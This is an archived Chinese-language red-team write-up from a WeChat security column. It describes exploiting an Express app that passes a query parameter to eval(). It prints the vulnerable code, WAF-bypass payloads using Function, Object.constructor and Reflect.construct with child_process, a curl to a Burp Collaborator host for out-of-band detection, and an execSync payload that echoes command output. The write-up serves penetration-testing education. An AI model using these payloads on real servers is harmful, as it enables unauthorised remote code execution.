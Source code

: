 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s?\_\_biz=MzAwMzYxNzc1OA==&mid=2247487208&idx=1&sn=a6fba4102f167b4872f39b0c148723df&chksm=9b392859ac4ea14fe04f3819b45897b12907e61c914040723b79faebfff10659e2504041a2e8&mpshare=1&scene=1&srcid=1013f5qWlNcB6JkjEyvcVxm9&sharer\_sharetime=1602548751028&sharer\_shareid=c051b65ce1b8b68c6869c6345bc45da1&key=1fd465a69b407b1c7682f6b86f07034c2b0f29c361ea5f1ee80dd8899abad1fb37048a99fc521161baa87b2b2b20357a6201e5919fd54691d05937b1d65d8f26efd035b6f16eebe1e07c4c281f9029d37deb3422b63b7d802e484646b45dfa7ab7154b0451f491918d6fde52b16fcc117bc5ed1e756e99f8f157008ffae54f39&ascene=1&uin=ODk4MDE0MDEy&devicetype=Windows+10+x64&version=6300002f&lang=zh\_CN&exportkey=AYymDvn9uraDccSxFkHN1sU%3D&pass\_ticket=2G6SwO4uyYCX4aTiQDJvW1D1IrAJXn1CnpH%2BbX1rykSOMZNKPaotYwa2vyHnTBud&wx\_header=0)

这是 **酒仙桥六号部队** 的第 **87** 篇文章。

全文共计 668 个字，预计阅读时长 3 分钟。

**前言**

在某个行业 hw 中的一次红蓝对抗，被 waf 封的头皮发麻。在反序列化打不进去，弱口令也爆破不出来的时候。发现了一个突破的站点。

**分析**

这个网站是一个 nodejs 的网站，用的 express 框架。这个可以从返回数据包看出来，

X-Powered-By: Express

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55PX2pekFq49pCT8Aw8Lj5ZTGyflEPTj8o3ZO70ufWwQwKmqVHeiayn11MxpnXg35slPWARY7tUA4w/640?wx_fmt=jpeg)

根据静态资源的部分特征，github 上搜索到部分相关代码。

**代码**

这里把相关代码简化下。大概如下：

```
var express = require('express');

var app = express();

var funcs = {

           getList: getReadMsg,

           getMsg: "getMsg",

};

function getReadMsg() {

       console.log('aaaaaa')

       }

app.get('/', function(req, res) {

           var resp=eval('funcs.' + req.query.test);

           res.send('Response</br>'+resp);

});

app.listen(8001);

console.log('Server runing at http://127.0.0.1:8001/');
```

本地测试环境比较顺利，Node.js 中的 chile\_process.exec 调用的是 bash，它是一个 bash 解释器，可以执行系统命令。在 eval 函数的参数中可以构造 require('child\_process').exec(''); 来进行调用。

```
require('child\_process').exec('');
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55PX2pekFq49pCT8Aw8Lj5Z9HAxhgIJymh7Qbn73uYe1TKLcHcJEoDuSAFZLRPic6HIicYmqSmRE4qw/640?wx_fmt=png)

**WAF**

线上环境测试遇到 WAF，通过测试发现对 eval 这个函数进行了过滤。这里可以使用如下的方法去绕过。

```
test=Function(require('child\_process').exec('curl+547q0etugr2fu1ehjlkto83s1j79vy.burpcollaborator.net'))()
```

或者使用这几个：

```
test=getList(1);Object.constructor(payload)()

test=getList(1);Reflect.construct(Function,\[payload\])()
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55PX2pekFq49pCT8Aw8Lj5Z8ibI2fyNDaMjgSUOzddbtgmHnamPkGWVycrUian38n5QChicIUbjYEMiaw/640?wx_fmt=png)

到了最关键的一步，去线上测试下漏洞，执行了下发现没有看到 dnslog，反复研究后发现，这台服务器不能出网。由于这个命令执行没得回显，这个漏洞显得有点鸡肋。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55PX2pekFq49pCT8Aw8Lj5ZlmAibLKd92n4YVwQTJwSibZicEbVxBO4mHuZqqYmlU24QJQDJia12QMVGA/640?wx_fmt=jpeg)

**回显**

然后使用了 res.send。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55PX2pekFq49pCT8Aw8Lj5Ztl9ibdKicUYx85akYj1z5IVPWib3MYoUzPTZYm0NzBia9dBTwGjnHEgllA/640?wx_fmt=jpeg)

使用如下 payload：

```
Reflect.construct(Function,\[res.send(require('child\_process').execSync('ifconfig'))\])()
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55PX2pekFq49pCT8Aw8Lj5Zj2ZYiaZciaBD7lmmp2dKruBYRibFAicscfbB51ibcLeEkhC6mGsNoLQcIVQ/640?wx_fmt=jpeg)

显示无法读取未定义的属性，这个是前面函数没有闭合导致的报错。直接闭合函数，就成功回显命令。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s55PX2pekFq49pCT8Aw8Lj5ZPkqjHd0JpqYhWaEBI0icIy5O97KAoUClsl5HQtF9Be3H6tCcibicb9ScA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCib3tHSia4iaVNVeRfP12IWicjQwfVekvflKEC9XqUJGK8r6TMhcYd3GFw0g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCibiaRBNn0A5YI88OyFjU8fn2Isf9bat4vQn18NwG6cXxVOSuKiapNm2nibQ/640?wx_fmt=png)